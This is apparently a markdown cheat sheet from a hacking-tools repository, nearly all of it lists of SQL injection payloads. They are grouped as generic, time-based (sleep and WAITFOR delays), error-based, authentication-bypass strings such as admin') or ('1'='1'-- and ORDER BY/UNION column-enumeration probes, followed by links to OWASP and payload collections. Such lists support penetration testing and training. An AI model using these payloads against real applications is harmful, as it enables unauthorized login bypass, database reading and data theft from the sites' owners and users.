 # SQL Injection
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

> Tips: for more payloads [github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

## Generic SQL Injection Payloads

```sql
' or ' 
```
```sql
-- or #  
```
```sql
' OR '1 
```
```sql
' OR 1 -- - 
```
```sql
OR "" = " 
```
```sql
" OR 1 = 1 -- -" 
```
```sql
' OR '' = ' 
```
```sql
'=' 
```
```sql
'LIKE' 
```
```sql
'=0--+ 
```
```sql
OR 1=1 
```
```sql
' OR 'x'='x 
```
```sql
' AND id IS NULL; -- 
```
```sql
'''''''''''''UNION SELECT '2
```

## Time-Based
```sql
,(select * from (select(sleep(10)))a)
```
```sql
%2c(select%20*%20from%20(select(sleep(10)))a)
```
```sql
';WAITFOR DELAY '0:0:30'--
```

## Generic Error Based Payloads

```sql
OR 1=1
```
```sql
OR 1=1#
```
```sql
OR x=y#
```
```sql
OR 1=1-- 
```
```sql
OR x=x-- 
```
```sql
OR 3409=3409 AND ('pytW' LIKE 'pytW
```
```sql
HAVING 1=1
```
```sql
HAVING 1=1#
```
```sql
HAVING 1=0-- 
```
```sql
AND 1=1-- 
```
```sql
AND 1=1 AND '%'='
```
```sql
WHERE 1=1 AND 1=0--
```
```sql
%' AND 8310=8310 AND '%'='
```

## Authentication Based Payloads

```sql
' or 1=1 --
```
```sql
' or ''-'
```
```sql
' or '' '
```
```sql
' or ''&'
```
```sql
' or ''^'
```
```sql
' or ''*'
```
```sql
or true--
```
```sql
" or true--
```
```sql
' or true--
```
```sql
") or true--
```
```sql
') or true--
```
```sql
admin') or ('1'='1'--
```
```sql
admin') or ('1'='1'#
```
```sql
admin') or ('1'='1'/
```

## Order by and UNION Based Payloads
```sql
1' ORDER BY 1--+
```
```sql
1' ORDER BY 2--+
```
```sql
1' ORDER BY 3--+
```
```sql
1' ORDER BY 1,2--+
```
```sql
1' ORDER BY 1,2,3--+
```
```sql
1' GROUP BY 1,2,--+
```
```sql
1' GROUP BY 1,2,3--+
```
```sql
' GROUP BY columnnames having 1=1 --
```
```sql
-1' UNION SELECT 1,2,3--+
```
```sql
' UNION SELECT sum(columnname ) from tablename --
```
```sql
-1 UNION SELECT 1 INTO @,@
```
```sql
-1 UNION SELECT 1 INTO @,@,@
```
```sql
1 AND (SELECT * FROM Users) = 1 
```
```sql
' AND MID(VERSION(),1,1) = '5';
```



## 📚 References

* [owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
* [www.owasp.org/index.php/SQL_Injection_Bypassing_WAF](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF)
* [portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)
* [www.acunetix.com/websitesecurity/sql-injection/](https://www.acunetix.com/websitesecurity/sql-injection/)
* [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
* [github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)